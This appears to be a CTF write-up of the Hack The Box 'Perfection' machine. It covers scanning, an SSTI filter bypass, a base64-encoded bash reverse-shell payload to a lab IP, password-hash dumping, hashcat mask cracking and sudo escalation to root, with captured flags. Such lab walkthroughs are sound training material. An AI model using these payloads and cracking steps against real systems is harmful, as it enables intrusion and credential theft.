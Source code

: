 ```yaml
---
title: HTB - Perfection
date: 2024-07-07 00:00:00 + 1000
categories: [Web App, CTF,HTB]
tags: [htb,WebExploitation, SSTI, SQLite]
comments: false
---
```



The Perfection HTB easy rated-machine which involved exploiting a Server-Side Template Injection (SSTI) vulnerability in a web app to gain initial access as the "susan" user. This user's credentials were then cracked using Hashcat to gain root privileges via `sudo`

## Common Enumeration
### Namp

Running the `nmap -p- -sC -sV -oA recon/allport 10.10.11.253 --open` - Found two ports: SSH (port 22) and HTTP (port 80) and The HTTP service was running Nginx

```bash
$ nmap -p- -sC -sV -oA recon/allport 10.10.11.253 --open
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-30 17:15 AEST
Nmap scan report for 10.10.11.253
Host is up (0.0059s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.60 seconds
```

### Gobuster

Gobuster - Nothing interesting found 

```bash
$ gobuster dir -u http://10.10.11.253 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.253
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/about                (Status: 200) [Size: 3827]
/.                    (Status: 200) [Size: 3842]
Progress: 43007 / 43008 (100.00%)
===============================================================
Finished
===============================================================
```

### Web Reconnaissance

I pointed my browser at `http://10.10.11.253/` and saw a simple home page but then I noticed `/weighted-grade-calc`, a path that looked like a juicy target

![img](/assets/img/Perfection/1.webp)

The page mentioned it was powered by WEBrick 1.7.0, a Ruby web server. A quick Google search for "WEBrick vulnerabilities" turned up some interesting results. I found a known Server-Side Template Injection (SSTI) vulnerability in that version - [webrick vulnerabilities](https://security.snyk.io/package/rubygems/webrick)

![img](/assets/img/Perfection/2.webp)

I tried a few common SSTI payloads, but they were blocked

![img](/assets/img/Perfection/3.webp)

After a bit more digging, I stumbled upon a [technique for bypassing](https://davidhamann.de/2022/05/14/bypassing-regular-expression-checks/) regular expression checks, using a newline character (`%0A`). I tried it out, and... success!

![img](/assets/img/Perfection/4.webp)

## Shell as Susan

Now that I had a way to bypass the web app's defenses, I set up a listener on my machine, crafted a reverse shell payload, and injected it into the web app

```bash
a%0A<%25%3d+`echo+L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjkvMTMzNyAwPiYx|base64+-d|bash`+%25>
```

It worked! I had a shell as a user named "susan". It was a good start

```bash
$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.253] 41800
bash: cannot set terminal process group (991): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1$ whoami
whoami
susan
bash-5.1$ 
```

I upgraded my shell to a more interactive one using Python

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
export TERM=xterm
```

user.txt

```test
b6958b4ef355e9f03c9594a65dafd1be
```

### Enumeration for Privilege Escalation

So looking at Susan's home directory I see two juicy folders: `Migration` and `ruby_app`

```bash
bash-5.1$ ls
Migration  ruby_app  user.txt
bash-5.1$ 
```

BAM! A SQLite database named `pupilpath_credentials.db`. This is looking promising

```bash
bash-5.1$ ls
pupilpath_credentials.db
bash-5.1$ 
```

I opened the database and found a hash, which looked like it might be a user password. I needed to crack it

```bash
sqlite> select * from users;
1|Susan Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
2|Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
3|Harry Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
4|David Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
5|Stephen Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
sqlite> 
```

So I've uploaded uploaded and fired up `linpeas` and it spat out a juicy nugget: `/var/mail/susan`

```bash
bash-5.1$ pwd
/var/mail
bash-5.1$ ls
susan
bash-5.1$ cat susan 
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
bash-5.1$ 
```

Alright, so I've got this password pattern: "{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}". It's a classic password pattern, easy for the user but ripe for cracking

```bash
$ hashcat -m 1400 hash -a 3 -d 1 susan_nasus_?d?d?d?d?d?d?d?d?d --show
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_413759210
```

And there it is! `hashcat` spits out the password: `susan_nasus_413759210`
## Shell as root

I checked Susan's `sudo` configuration to see if she had any permissions to run commands as root

```bash
-bash-5.1$ sudo -l
Matching Defaults entries for susan on perfection:
   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User susan may run the following commands on perfection:
   (ALL : ALL) ALL
```

### ### Sudo to su

I used `sudo su` and I was in!

```bash
-bash-5.1$ sudo su
root@perfection:/home/susan# whoami
root
root@perfection:/home/susan# cat /root/root.txt 
d64491faf42d2eaebe64995eded12a46
root@perfection:/home/susan# 
```

root.txt

```text
d64491faf42d2eaebe64995eded12a46
```